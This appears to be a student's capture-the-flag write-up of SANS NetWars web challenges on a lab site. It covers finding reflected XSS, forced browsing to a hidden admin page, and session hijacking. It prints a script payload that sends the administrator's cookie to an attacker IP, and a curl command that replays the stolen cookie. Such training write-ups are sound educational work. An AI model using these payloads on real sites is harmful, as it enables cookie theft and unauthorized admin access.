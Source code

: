 # Contact

* Challenge - Interact with the contact form on the http://www.issplaylist.com website. What is the flag returned as the reference number?
* Points - 3

First, I navigated to the website in the question. From there, I clicked Contact in the navbar at the top of the site to go to the contact form. After that, I submitted the form with expected input to get the flag. 

![Contact-2](https://github.com/user-attachments/assets/b6e69b17-d014-40da-a89b-01f74dc2b186)
![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/b1380dc0-ccd7-44f8-8536-92d8d0bebf16)


# Vulnerability Discovery

* Challenge - Explore the Contact page on the http://www.issplaylist.com website to identify a vulnerability. Identify the type of vulnerability.
* Points - 5
* Answer - Cross-Site Scripting

First, I tried experiemnting with including a ' in the fields to get an SQL error. That did not work, as I got the same flag as the previous challenge. 
![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/53da4c88-831c-44b2-9c21-4b9dd8284073)

Then I tested for an XSS vulnerability by typing the hr HTML tag into each field of the contact form. I noticed the horizontal line from the hr HTML tag was displayed on the page. 
![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/87c7fd9d-fc96-4990-88aa-c63c96e4a939)

This means my input was reflected on the page. To confirm this, I viewed the page source, and used CTRL + F to look for my input, the hr HTML tag. The page source shows my input. All of this means that the site is vulnerable to XSS, but specifically reflected XSS. 
![Vulnerability Discovery-4](https://github.com/user-attachments/assets/41bba667-32ad-4ad5-b657-65ed34138328)


# Forced Browsing

* Challenge - Identify the hidden page on the http://www.issplaylist.com server. Submit the page name (XXXXX.html).
* Points - 5
* Answer - admin.html

Typically, admin pages are hidden from normal users. If a web server is misconfigured, you can just go straight to the admin page with a forced browsing attack. From the question, we know the page name is five characters. So I typed issplaylist.com/admin.html in my browser and saw an admin page. 
![Forced Browsing-2](https://github.com/user-attachments/assets/17690325-9e0f-4325-b4b2-1b41ab424daf)

# Cookie Theft

* Challenge - Administrators for the http://www.issplaylist.com site frequently examine the contact page submissions using their browsers. Exploit the site vulnerability to steal cookie content from the administrator. What is the name of the cookie used to authenticate administrative users?
* Points - 5
* Answer - wwwlogincookie

From the Vulnerability Discovery challenge, I know the site is vulnerable to reflected XSS. From Lab 4.4, SANS supplied to us a cookiecatcher PHP file. I started a PHP web server to listen for the cookie.

![Cookie Theft-2](https://github.com/user-attachments/assets/2c7745ff-5355-45e6-b776-8a5f270ba28d)

After starting the listener on my attacker terminal, I went back to the browser. At the contact form, I put the following string in all of the fields then submited the form - <script>document.location='http://10.142.148.12:2222/?'+document.cookie;</script>

![Cookie Theft-3](https://github.com/user-attachments/assets/27d2e9b7-6333-4f3a-9d7d-363310cc713b)


Going back to my attacker terminal, where the cookiecatcher file is running, I can see the name of the stolen cookie. 

![Cookie Theft-4](https://github.com/user-attachments/assets/fb3b55f2-da85-4847-927a-7a633a6b07a5)


# Unauthorized Access

* Challenge - Use the stolen cookie to access the admin page. Submit the flag.
* Points - 5
* Answer - NetWars{AdminAccessIsBest}

Now that I have the cookie for admin from the Cookie Theft challenge, I can use curl and the -b argument to specify a token and return the content of that page as if I were logging in as admin. In my attacker terminal, I ran the following command: 
* curl -b wwwlogincookie=0f186582606b62965d90e772e76a8a5620b11af9 "http://www.issplaylist.com/admin.html"

This returned the admin page output. Scroll down to see the flag. 
![Unauthorized Access-2](https://github.com/user-attachments/assets/922e6443-10d2-454e-bd81-05d523dab0ac)
![Unauthorized Access-3](https://github.com/user-attachments/assets/ee50190d-5dd2-42a7-9b40-7845162253c9)
